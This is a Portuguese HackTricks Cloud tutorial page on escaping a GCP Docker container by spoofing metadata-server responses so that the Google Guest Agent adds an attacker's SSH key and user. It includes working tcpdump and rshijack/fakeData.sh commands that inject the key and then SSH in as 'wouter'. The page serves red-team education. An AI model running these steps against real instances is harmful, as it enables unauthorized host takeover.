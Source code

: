 # GCP - Network Docker Escape

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Estado Inicial

Em ambos os relatos onde esta técnica é especificada, os atacantes conseguiram obter acesso **root** dentro de um **Docker** container gerenciado pelo GCP com acesso à rede do host (e as capacidades **`CAP_NET_ADMIN`** e **`CAP_NET_RAW`**).

## Explicação do Ataque

Em uma instância do Google Compute Engine, a inspeção regular do tráfego de rede revela numerosos **pedidos HTTP simples** para a **instância de metadados** em `169.254.169.254`. O [**Google Guest Agent**](https://github.com/GoogleCloudPlatform/guest-agent), um serviço de código aberto, frequentemente faz tais pedidos.

Este agente é projetado para **monitorar mudanças nos metadados**. Notavelmente, os metadados incluem um **campo para chaves públicas SSH**. Quando uma nova chave pública SSH é adicionada aos metadados, o agente automaticamente **autoriza** ela no arquivo `.authorized_key`. Ele também pode **criar um novo usuário** e adicioná-lo aos **sudoers** se necessário.

O agente monitora mudanças enviando um pedido para **recuperar todos os valores de metadados recursivamente** (`GET /computeMetadata/v1/?recursive=true`). Este pedido é projetado para solicitar ao servidor de metadados que envie uma resposta apenas se houver alguma mudança nos metadados desde a última recuperação, identificada por um Etag (`wait_for_change=true&last_etag=`). Além disso, um parâmetro de **timeout** (`timeout_sec=`) é incluído. Se nenhuma mudança ocorrer dentro do timeout especificado, o servidor responde com os **valores inalterados**.

Esse processo permite que o **IMDS** (Instance Metadata Service) responda após **60 segundos** se nenhuma mudança de configuração ocorreu, criando uma potencial **janela para injetar uma resposta de configuração falsa** para o agente convidado.

Um atacante poderia explorar isso realizando um **ataque Man-in-the-Middle (MitM)**, falsificando a resposta do servidor IMDS e **inserindo uma nova chave pública**. Isso poderia permitir acesso SSH não autorizado ao host.

### Técnica de Escape

Embora o ARP spoofing seja ineficaz nas redes do Google Compute Engine, uma [**versão modificada do rshijack**](https://github.com/ezequielpereira/rshijack) desenvolvida por [**Ezequiel**](https://www.ezequiel.tech/2020/08/dropping-shell-in.html) pode ser usada para injeção de pacotes na comunicação para injetar o usuário SSH.

Esta versão do rshijack permite inserir os números ACK e SEQ como argumentos de linha de comando, facilitando a falsificação de uma resposta antes da resposta real do servidor de Metadados. Além disso, um [**pequeno script Shell**](https://gist.github.com/ezequielpereira/914c2aae463409e785071213b059f96c#file-fakedata-sh) é usado para retornar um **payload especialmente elaborado**. Este payload faz com que o Google Guest Agent **crie um usuário `wouter`** com uma chave pública especificada no arquivo `.authorized_keys`.

O script usa o mesmo ETag para evitar que o servidor de Metadados notifique imediatamente o Google Guest Agent sobre valores de metadados diferentes, atrasando assim a resposta.

Para executar a falsificação, os seguintes passos são necessários:

1. **Monitorar pedidos ao servidor de Metadados** usando **tcpdump**:
```bash
tcpdump -S -i eth0 'host 169.254.169.254 and port 80' &
```
Procure uma linha semelhante a:
```
<TIME> IP <LOCAL_IP>.<PORT> > 169.254.169.254.80: Flags [P.], seq <NUM>:<TARGET_ACK>, ack <TARGET_SEQ>, win <NUM>, length <NUM>: HTTP: GET /computeMetadata/v1/?timeout_sec=<SECONDS>&last_etag=<ETAG>&alt=json&recursive=True&wait_for_change=True HTTP/1.1
```
2. Envie os dados de metadados falsos com o ETAG correto para rshijack:
```bash
fakeData.sh <ETAG> | rshijack -q eth0 169.254.169.254:80 <LOCAL_IP>:<PORT> <TARGET_SEQ> <TARGET_ACK>; ssh -i id_rsa -o StrictHostKeyChecking=no wouter@localhost
```
Este passo autoriza a chave pública, permitindo a conexão SSH com a chave privada correspondente.

## Referências

* [https://www.ezequiel.tech/2020/08/dropping-shell-in.html](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)
* [https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
